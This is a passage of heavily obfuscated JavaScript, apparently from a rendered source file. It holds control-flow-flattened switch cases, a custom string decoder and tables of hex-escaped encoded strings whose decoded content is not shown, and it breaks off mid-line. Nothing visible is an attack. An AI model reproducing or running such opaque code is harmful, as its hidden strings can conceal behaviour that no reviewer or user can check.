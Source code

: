 0x9d:X1d1C0(OSGpjiT.push((Tef2vHf|WWFdUB<<RTF7iOB)&EQue_F_[z9bIRt1+-0xa]),kw9mRt.JPELOmU=kw9mRt.MtAGDin,j4Cv2E+=0x7,OSWTvMx+=-0xac);break;default:kw9mRt.MtAGDin.WWFdUB=-EQue_F_[z9bIRt1+0x1c];for(kw9mRt.MtAGDin.OFk4O0R=EQue_F_[z9bIRt1+0x1a];OFk4O0R<ykemuxH;OFk4O0R++){kw9mRt.MtAGDin.wmRpN0=qi4bUJ.indexOf(ONl5Zb[OFk4O0R]);if(wmRpN0===-EQue_F_[z9bIRt1+0x1c])continue;if(WWFdUB<EQue_F_[0x1]){WWFdUB=wmRpN0}else{X1d1C0(WWFdUB+=wmRpN0*EQue_F_[0x16],Tef2vHf|=WWFdUB<<RTF7iOB,RTF7iOB+=(WWFdUB&EQue_F_[z9bIRt1+0x45])>EQue_F_[0x15]?EQue_F_[z9bIRt1+0x2b]:EQue_F_[0x13]);do{X1d1C0(OSGpjiT.push(Tef2vHf&EQue_F_[0x10]),Tef2vHf>>=EQue_F_[j4Cv2E+0x104],RTF7iOB-=EQue_F_[0xa])}while(RTF7iOB>EQue_F_[j4Cv2E+0x10b]);WWFdUB=-EQue_F_[0x3]}}if(WWFdUB>-EQue_F_[0x3]){X1d1C0(kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=0x33,OSWTvMx+=0x65);break}else{X1d1C0(kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=0x33,j4Cv2E+=0x7,OSWTvMx+=-0x47);break}case 0xe6:case z9bIRt1!=-0x6b&&z9bIRt1- -0x160:X1d1C0(kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=0x1a2,j4Cv2E+=-0x2ca,OSWTvMx+=0x1ed);break;case j4Cv2E- -0xeb:return M0wfVq=!0x0,E6gR0LB(OSGpjiT);case j4Cv2E-0xdb:case-0x70:X1d1C0(kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=0x85,j4Cv2E+=-0x2c3,OSWTvMx+=0x141);break;case-0xec:X1d1C0(kw9mRt.MtAGDin.OSGpjiT=[],kw9mRt.MtAGDin.Tef2vHf=EQue_F_[j4Cv2E+0xfb],kw9mRt.MtAGDin.RTF7iOB=EQue_F_[0x1],kw9mRt.JPELOmU=kw9mRt.MtAGDin,OSWTvMx+=0xf1);break;case kw9mRt.MtAGDin.XVD7lK+0x16:X1d1C0(kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=-0x14e,j4Cv2E+=-0x14,OSWTvMx+=0x245);break;case OSWTvMx- -0xc5:case-0x3e:X1d1C0(kw9mRt.MtAGDin.XVD7lK=-0x5c,MtAGDin.qi4bUJ=\"\\u007a\\u006e\\u004c\\u0071\\u0066\\u006d\\u0041\\u0048\\u0057\\u0068\\u004d\\u006f\\u004f\\u0055\\u0073\\u0065\\u0046\\u0049\\u006c\\u0051\\u0063\\u0067\\u0072\\u004e\\u0042\\u0031\\u0023\\u004b\\u0061\\u002a\\u0059\\u004a\\u0074\\u0056\\u0052\\u0050\\u0039\\u0079\\u0045\\u0030\\u0062\\u0078\\u003f\\u0044\\u0075\\u0069\\u0064\\u002c\\u006a\\u0047\\u0060\\u0054\\u0070\\u0043\\u006b\\u0058\\u005d\\u005a\\u0053\\u0025\\u0076\\u0040\\u0024\\u0037\\u003b\\u007d\\u0021\\u003c\\u0035\\u0038\\u0032\\u0077\\u007e\\u003a\\u003e\\u002e\\u0026\\u005e\\u0028\\u0033\\u0029\\u003d\\u005f\\u005b\\u0034\\u0022\\u0036\\u007b\\u007c\\u002b\\u002f\",MtAGDin.ONl5Zb=\"\"+(kTFw4wc||\"\"),MtAGDin.ykemuxH=MtAGDin.ONl5Zb.length,kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=-0xa7,j4Cv2E+=-0x131,OSWTvMx+=0x93);break;case z9bIRt1-0x16d:X1d1C0(kw9mRt.MtAGDin.XVD7lK=0xd6,kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=-0x11c,j4Cv2E+=-0x7,OSWTvMx+=0xa1);break;case kw9mRt.MtAGDin.XVD7lK+-0x33:X1d1C0(kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=0x16f,j4Cv2E+=-0x7d,OSWTvMx+=-0x14f);break}}X1d1C0(M0wfVq=void 0x0,z9bIRt1=j4Cv2E(0x8e,0x37,-0x6c).next().value);if(M0wfVq){return z9bIRt1}}function hMhb5SB(j4Cv2E){if(typeof M0wfVq[j4Cv2E]===kTFw4wc(EQue_F_[0x1])){return M0wfVq[j4Cv2E]=Xi7TFO(z9bIRt1[j4Cv2E])}return M0wfVq[j4Cv2E]}X1d1C0(M0wfVq={},z9bIRt1=[kTFw4wc(EQue_F_[0x3]),kTFw4wc(EQue_F_[0x6]),kTFw4wc(EQue_F_[0x9]),kTFw4wc(EQue_F_[0xc]),\"\\x72\\x77\\x66\\x4d\\x49\\x77\\x4f\\x57\\x7d\\x5a\\x7e\\x31\\x57\\x65\\x51\\x62\\x36\\x52\\x55\\x3e\\x25\\x32\\x2e\\x48\\x3e\\x73\\x4f\\x4d\\x7c\\x65\\x41\\x6c\\x26\\x7d\\x40\\x70\\x63\\x62\\x3e\\x3e\\x28\\x6c\\x52\\x7e\\x77\\x65\\x41\",kTFw4wc(EQue_F_[0xab]),kTFw4wc(EQue_F_[0x8]),kTFw4wc(EQue_F_[0x11]),kTFw4wc(EQue_F_[0xa]),kTFw4wc(EQue_F_[0x37]),kTFw4wc(EQue_F_[0xa0]),kTFw4wc(0xb),kTFw4wc(EQue_F_[0x23]),kTFw4wc(EQue_F_[0x12]),kTFw4wc(EQue_F_[0x13]),\"\\x35\\x4a\\x59\\x48\\x49\\x5a\\x2b\\x50\\x30\\x3b\\x59\\x53\\x76\\x71\\x7c\\x78\\x2c\\x54\\x28\\x68\\x36\\x77\\x4e\\x2c\\x7c\\x55\\x59\\x7d\\x71\\x5f\\x6e\\x4a\\x31\\x7d\\x45\\x61\\x29\\x39\\x44\\x55\\x62\\x53\\x73\\x7e\\x61\\x25\\x25\\x3f\\x7d\\x35\\x67\\x70\\x5e\\x6a\\x76\\x4c\",kTFw4wc(EQue_F_[0x14]),kTFw4wc(EQue_F_[0xb]),kTFw4wc(0x11),kTFw4wc(EQue_F_[0x25]),kTFw4wc(0x13),\"\\x7c\\x41\\x77\\x26\\x4b\\x77\\x74\\x39\\x78\\x73\\x3a\\x2a\\x54\\x73\\x62\\x45\\x71\